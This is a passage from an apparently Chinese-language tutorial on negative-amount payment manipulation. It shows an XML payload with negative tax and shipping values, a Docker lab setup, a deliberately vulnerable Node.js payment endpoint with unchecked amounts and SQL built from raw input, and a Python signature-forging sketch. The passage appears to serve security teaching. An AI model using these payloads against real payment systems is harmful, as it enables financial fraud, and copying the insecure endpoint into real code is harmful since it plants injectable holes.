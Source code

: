 ### 2.4 复合参数型
篡改关联参数实现金额计算异常：
```xml
<payment>
    <base>100</base>
    <tax>-300</tax>
    <shipping>-50</shipping>
</payment>
```

## 三、实战环境搭建
### 3.1 实验环境配置
使用Docker搭建脆弱系统：
```dockerfile
FROM vuln/webapp:latest
ENV DB_HOST=mysql
EXPOSE 8080
```

启动命令：
```bash
docker-compose -f docker-compose.yml -p negamt-attack up
```

### 3.2 脆弱接口示例（Node.js）
```javascript
app.post('/api/pay', (req, res) => {
    const { amount, card } = req.body;
    
    // 漏洞点：未校验金额正负
    database.execute(`UPDATE accounts SET balance = balance - ${amount} 
                     WHERE card = '${card}'`);
    
    res.send({status: "success"});
});
```

## 四、进阶攻击技术
### 4.1 签名绕过技术
针对使用参数签名的系统：
```python
import hashlib

def forge_signature(original_params):
    params = original_params.copy()
    params['amount'] = -params['amount']
    # 利用签名算法漏洞
    signature = hashlib.md5(f"{params['amount']}|{params['nonce']}".encode()).hexdigest()
    return params, signature
```
